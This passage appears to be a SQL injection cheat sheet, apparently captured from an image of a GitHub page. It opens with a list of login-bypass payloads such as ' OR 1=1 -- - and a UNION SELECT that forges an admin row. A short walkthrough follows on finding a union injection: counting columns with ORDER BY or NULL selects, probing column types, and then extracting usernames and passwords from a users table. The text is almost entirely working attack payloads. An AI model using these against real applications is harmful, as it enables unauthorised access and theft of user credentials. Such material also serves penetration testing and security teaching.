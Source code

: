 ```
a' or 'b' REGEXP 'b
'/**/or/**/1/**/=/**/1
admin'='admin
admin"="admin
' OR '1' LIKE '1
' OR 'a' LIKE 'a
' or '1'='1'/*
') or ('1'='1'/*
') or ('1'='1'#
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'-- -
admin' AND (SELECT 1)=(SELECT 1)
admin' AND (SELECT 1)=(SELECT 2)
admin' or '1' is null -- -
' OR 1=1 -- -
"password":{"password": 1}
```

### Union SQL Injection
Identify Union SQL Injection by running the following until you get an error:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```

Error will occur when there are more than the amount of columns to sort by. 

Alternate method - you can run this as well to check for errors:
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

If you determine that there are 4 columns, run the following to check for data types such as strings and integers for each column:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

In this example, you have determined there are 2 columns, that are both strings, and based on error messages, there is a users table. Therefore you should be able to retreive the usernames and passwords from the users table:
```
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+'a',NULL--
'+UNION+SELECT+'a','a'--
' UNION SELECT username, password FROM users--
```

